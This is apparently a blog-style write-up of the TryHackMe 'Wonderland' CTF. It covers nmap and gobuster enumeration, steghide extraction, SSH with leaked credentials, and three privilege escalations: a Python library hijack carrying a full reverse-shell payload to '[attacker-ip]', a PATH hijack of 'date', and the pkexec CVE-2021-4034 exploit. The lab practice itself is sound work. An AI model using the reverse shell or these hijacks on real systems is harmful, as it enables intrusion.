 ```yaml
---
title: "Wonderland"
date: 2025-03-28
image: /assets/img/tryhackme/Wonderland/Wonderland_image.jpg
description: Writeup of the TryHackMe-CTF Wonderland
categories: [TryHackMe, Medium]
tags: [linux, steganography, python, pathmanipulation, pkexec]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Wonderland</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Fall down the rabbit hole and enter wonderland.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/wonderland">https://tryhackme.com/room/wonderland</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Wonderland.

## Enumeration
I started the enumeration using `nmap`:
```bash
kali@kali:~/ctf/wonderland$ nmap -p- 10.10.87.79
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 06:45 EDT
  Nmap scan report for 10.10.87.79
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 36.96 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
kali@kali:~/ctf/wonderland$ nmap -A -p 22,80 10.10.87.79
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-28 06:46 EDT
  Nmap scan report for 10.10.87.79
  Host is up (0.038s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
  |   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
  |_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
  80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
  |_http-title: Follow the white rabbit.
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.56 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The website displayed a quote of Alice in Wonderland. I initiated a Gobuster directory enumeration and manually began exploring the website. My attention was caught by an image of the `Märzhase` (March Hare in English), which had a `JPG` extension. After downloading the image, I applied some steganography techniques and was successful using `steghide`:
```bash
kali@kali:~/ctf/wonderland$ steghide --extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
                
kali@kali:~/ctf/wonderland$ cat hint.txt  
follow the r a b b i t
```

Once the Gobuster directory enumeration was complete, I had a strong sense of where this might lead:
```bash
kali@kali:~/ctf/wonderland$ gobuster dir --url http://10.10.87.79/ --wordlist /usr/share/wordlists/dirb/common.txt -x txt,html,php 

  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.87.79/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              txt,html,php
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /img                  (Status: 301) [Size: 0] [--> img/]
  /index.html           (Status: 301) [Size: 0] [--> ./]
  /index.html           (Status: 301) [Size: 0] [--> ./]
  /r                    (Status: 301) [Size: 0] [--> r/]
  Progress: 18456 / 18460 (99.98%)
  ===============================================================
  Finished
  ===============================================================
```

I entered the URL in the following format:
```html
http://10.10.87.79/r/a/b/b/i/t/
```

The website displayed another image, but this time it was a `.png` file. I continued analyzing the page source and found something interesting:
```html
<p style="display: none;">alice:H[removed]l</p>
```

This appeared to be a set of credentials. I attempted to log in via SSH, which was successful:
```bash
kali@kali:~/ctf/wonderland$ ssh alice@10.10.87.79 
alice@wonderland:~$ id
  uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

The `user.txt` was not inside the home directory, so I analyzed which users were present:
```bash
  [...]
  tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
  alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
  hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
  rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
  [...]
```

## Privilege Escalation rabbit

Alice was allowed to run a Python script as user 'rabbit', so I proceeded to enumerate the script further:
```bash
alice@wonderland:/home$ sudo -l 
  Matching Defaults entries for alice on wonderland:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User alice may run the following commands on wonderland:
      (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

alice@wonderland:~$ cat walrus_and_the_carpenter.py 
  import random

  [... a lot of poems ...]

  for i in range(10):
      line = random.choice(poem.split("\n"))
      print("The line was:\t", line)
```

The imported `random` library caught my attention. To exploit this, I set the `PYTHONPATH` variable to Alice's home directory and created a file named `random.py`. This file was  imported by `walrus_and_the_carpenter.py`. My `random.py` script contained a reverse shell, which I successfully received triggered upon executing the script.
```bash
alice@wonderland:~$ cat random.py 
  import socket,subprocess,os,pty

  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[attacker-ip]",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
  pty.spawn("bash")
alice@wonderland:~$ export PYTHONPATH=/home/alice
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

## Privilege Escalation hatter

In the `rabbit`'s user directory, I found a binary named `teaParty`. I executed it and received the following output:
```bash
rabbit@wonderland:/home/rabbit$ ./teaParty 
  Welcome to the tea party!
  The Mad Hatter will be here soon.
  Probably by Fri, 28 Mar 2025 12:30:40 +0000
  Ask very nicely, and I will give you some tea while you wait for him
  ok
  Segmentation fault (core dumped)
```

For further analysis, I downloaded the binary to my machine and loaded it in IDA. I discovered that the `date` command was used without reverencing the full path:

![IDA](/assets/img/tryhackme/Wonderland/thm_wonderland_1.jpg)

To exploit this, I created a binary called `date`, which spawns a shell. After modifying the PATH variable and executing `teaParty` again, I successfully escalated to user `hatter`.
```bash
rabbit@wonderland:/home/rabbit$ ed /tmp
rabbit@wonderland:/tmp$ echo "/bin/bash" > date
rabbit@wonderland:/tmp$ chmod 777 date
rabbit@wonderland:/tmp$ export PATH=/tmp:$PATH
rabbit@wonderland:/tmp$ cd /home/rabbit
rabbit@wonderland:~$ ./teaParty
  Welcome to the tea party!
  The Mad Hatter will be here soon.
  Probably by hatter@wonderland:/home/rabbit$
hatter@wonderland:~$ id
  uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

Once I gained access to the `hatter` user, I enumerated the home directory and found the user's. However, I was not permitted to run `sudo -l`:
```bash
hatter@wonderland:~$ cat password.txt 
  W[removed]?
hatter@wonderland:~$ sudo -l
  [sudo] password for hatter: 
  Sorry, user hatter may not run sudo on wonderland.
```

## Privilege Escalation root

Next, I checked for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:


```bash
rabbit@wonderland:/home/rabbit$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7fe114abf000 at 0x7fe1135697b8>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1002(rabbit) groups=1002(rabbit)
# cat /root/user.txt
  thm{"C[removed]!"}
# cat /home/alice/root.txt
  thm{T[removed]!}
```

solved! :)
